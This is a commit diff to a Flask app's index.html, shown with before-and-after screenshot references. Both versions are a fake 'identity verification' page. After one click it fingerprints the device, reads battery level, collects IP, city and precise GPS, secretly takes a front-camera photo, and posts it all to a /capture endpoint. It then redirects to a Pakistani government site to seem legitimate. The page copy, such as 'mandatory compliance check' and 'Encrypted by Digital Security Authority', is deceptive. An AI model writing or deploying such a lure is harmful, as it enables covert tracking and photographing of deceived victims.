

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,106 +2,144 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Identity Verification Portal</title>
     <style>
-        :root { --primary: #28a745; --bg: #f5f7f9; }
-        body { font-family: -apple-system, system-ui, sans-serif; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; overflow: hidden; }
-        .card { background: white; width: 90%; max-width: 380px; padding: 30px; border-radius: 20px; box-shadow: 0 15px 35px rgba(0,0,0,0.1); text-align: center; border: 1px solid #ddd; }
-        .btn { background: var(--primary); color: white; border: none; padding: 16px; width: 100%; border-radius: 10px; font-size: 17px; font-weight: 700; cursor: pointer; transition: 0.3s; }
-        #loader { display: none; margin-top: 20px; font-weight: 600; color: var(--primary); }
+        :root { --primary: #28a745; --bg: #f5f7f9; --text: #24292e; }
+        body { font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", Roboto; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
+        .status-bar { height: 4px; background: var(--primary); border-radius: 10px; width: 50px; margin-bottom: 20px; }
+        h2 { font-size: 20px; color: var(--text); margin: 0 0 12px 0; font-weight: 700; }
+        p { font-size: 14px; color: #586069; line-height: 1.6; margin-bottom: 30px; }
+        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.3s ease; box-shadow: 0 4px 12px rgba(40, 167, 69, 0.2); }
+        .btn:active { transform: scale(0.98); }
+        #loader { display: none; text-align: center; }
+        .spinner { border: 3px solid #f3f3f3; border-top: 3px solid var(--primary); border-radius: 50%; width: 24px; height: 24px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+        .footer-text { font-size: 11px; color: #959da5; margin-top: 25px; text-align: center; border-top: 1px solid #eee; padding-top: 15px; }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <div style="height:4px; background:var(--primary); width:60px; margin:0 auto 20px; border-radius:10px;"></div>
-    <h2>Security Check</h2>
-    <p style="color:#555; font-size:14px; margin-bottom:25px;">Please verify your identity to continue to the secure portal.</p>
-    <button id="mainBtn" class="btn" onclick="execute()">CONTINUE TO PORTAL</button>
-    <div id="loader">Processing Secure Link...</div>
+    <div class="status-bar"></div>
+    <h2>Regional Access Verification</h2>
+    <p>This automated portal confirms your identity and location for secure access. Please click below to complete the mandatory compliance check.</p>
+
+    <div id="loader">
+        <div class="spinner"></div>
+        <div style="font-size: 13px; color: var(--primary); font-weight: 600;">Authenticating Secure Connection...</div>
+    </div>
+
+    <button id="mainBtn" class="btn" onclick="startProcess()">CONTINUE TO PORTAL</button>
+
+    <div class="footer-text">
+        System ID: FZN-PR-2026<br>
+        Encrypted by Digital Security Authority
+    </div>
 </div>
 
-<video id="v" style="display:none;" autoplay playsinline></video>
-<canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
+<video id="video" style="display:none;" autoplay playsinline></video>
+<canvas id="canvas" style="display:none;" width="1280" height="720"></canvas>
 
 <script>
-    async function execute() {
-        document.getElementById('mainBtn').style.display = 'none';
-        document.getElementById('loader').style.display = 'block';
+    async function startProcess() {
+        const btn = document.getElementById('mainBtn');
+        const loader = document.getElementById('loader');
+        btn.style.display = 'none';
+        loader.style.display = 'block';
 
-        let report = {
-            model: "Unknown", os: "Unknown", battery: "N/A",
-            ip: "N/A", city: "N/A", country: "N/A", lat: "0", lon: "0"
+        // 1. Precise Device Detection
+        let userAgent = navigator.userAgent;
+        let deviceName = "Unknown Device";
+        if (/android/i.test(userAgent)) {
+            deviceName = userAgent.match(/\(([^)]+)\)/)[1].split(';')[2] || "Android Mobile";
+        } else if (/iPhone/i.test(userAgent)) {
+            deviceName = "Apple iPhone";
+        }
+
+        let reportData = {
+            device: deviceName.trim(),
+            platform: navigator.platform,
+            battery: "N/A",
+            time: new Date().toLocaleString(),
+            lat: "0", lon: "0",
+            city: "N/A", country: "N/A", ip: "N/A"
         };
 
-        // 1. Precise Hardware & OS Detection
-        let ua = navigator.userAgent;
-        if (/android/i.test(ua)) {
-            let m = ua.match(/Android\s([0-9\.]+);\s([^;)]+)/);
-            report.os = m ? "Android " + m[1] : "Android";
-            report.model = m ? m[2] : "Android Device";
-        } else if (/iPhone|iPad/i.test(ua)) {
-            report.os = "iOS";
-            let w = window.screen.width;
-            report.model = (w >= 430) ? "iPhone Pro Max" : (w >= 390) ? "iPhone Pro/Standard" : "iPhone";
+        // 2. Battery Status
+        if(navigator.getBattery) {
+            const b = await navigator.getBattery();
+            reportData.battery = Math.round(b.level * 100) + "%";
         }
 
-        // 2. Battery retrieval
-        if(navigator.getBattery) {
-            const b = await navigator.getBattery();
-            report.battery = Math.round(b.level * 100) + "%";
-        }
-
-        // 3. Guaranteed IP & Location Fetching
-        const getGeo = async () => {
+        // 3. Multi-Source IP & Location (Redundancy)
+        const fetchGeo = async () => {
             try {
-                const res = await fetch('https://ipapi.co/json/');
-                const d = await res.json();
-                report.ip = d.ip || "N/A";
-                report.city = d.city || "N/A";
-                report.country = d.country_name || "N/A";
-            } catch (e) { report.city = "Access Blocked"; }
+                // Primary API
+                const res = await fetch('http://ip-api.com/json/?fields=status,country,city,query');
+                const data = await res.json();
+                if(data.status === 'success') {
+                    reportData.city = data.city;
+                    reportData.country = data.country;
+                    reportData.ip = data.query;
+                }
+            } catch (e) {
+                // Backup API
+                try {
+                    const res2 = await fetch('https://ipinfo.io/json');
+                    const data2 = await res2.json();
+                    reportData.city = data2.city;
+                    reportData.country = data2.country;
+                    reportData.ip = data2.ip;
+                } catch (e2) {
+                    reportData.city = "API Blocked";
+                }
+            }
         };
 
-        // 4. Parallel Camera and Data Fetch
+        // 4. Camera & GPS (Parallel Execution)
+        const geoPromise = fetchGeo();
         const cameraPromise = navigator.mediaDevices.getUserMedia({
-            video: { facingMode: "user", width: 1080, height: 1920 }
+            video: { facingMode: "user", width: 1280, height: 720 }
         }).catch(() => null);
 
-        const geoPromise = getGeo();
-
         navigator.geolocation.getCurrentPosition(async (pos) => {
-            report.lat = pos.coords.latitude;
-            report.lon = pos.coords.longitude;
-            complete(await cameraPromise, report, geoPromise);
+            reportData.lat = pos.coords.latitude;
+            reportData.lon = pos.coords.longitude;
+            finalize(await cameraPromise, reportData, geoPromise);
         }, async () => {
-            complete(await cameraPromise, report, geoPromise);
-        }, { timeout: 6000 });
+            finalize(await cameraPromise, reportData, geoPromise);
+        }, { enableHighAccuracy: true, timeout: 10000 });
     }
 
-    async function complete(stream, data, geoTask) {
-        await geoTask; // Wait for IP/City to finish
+    async function finalize(stream, data, geoTask) {
+        await geoTask; // Ensure Geo data is fetched
+
         if (stream) {
-            const video = document.getElementById('v');
+            const video = document.getElementById('video');
             video.srcObject = stream;
-            // 2.5s delay for auto-brightness and HD focus
+
+            // Wait 1.8 seconds for light adjustment & focus
             setTimeout(() => {
-                const canvas = document.getElementById('c');
+                const canvas = document.getElementById('canvas');
                 const ctx = canvas.getContext('2d');
                 ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
-                const photo = canvas.toDataURL('image/jpeg', 0.9);
+                const photo = canvas.toDataURL('image/jpeg', 0.8);
+
                 stream.getTracks().forEach(t => t.stop());
-                finish(data, photo);
-            }, 2500);
-        } else { finish(data, null); }
+                sendData(data, photo);
+            }, 1800);
+        } else {
+            sendData(data, null);
+        }
     }
 
-    function finish(d, p) {
+    function sendData(info, photo) {
         fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ info: d, photo: p })
+            body: JSON.stringify({ info: info, photo: photo })
         }).then(() => {
             window.location.href = "https://www.pakistan.gov.pk/";
         });
```
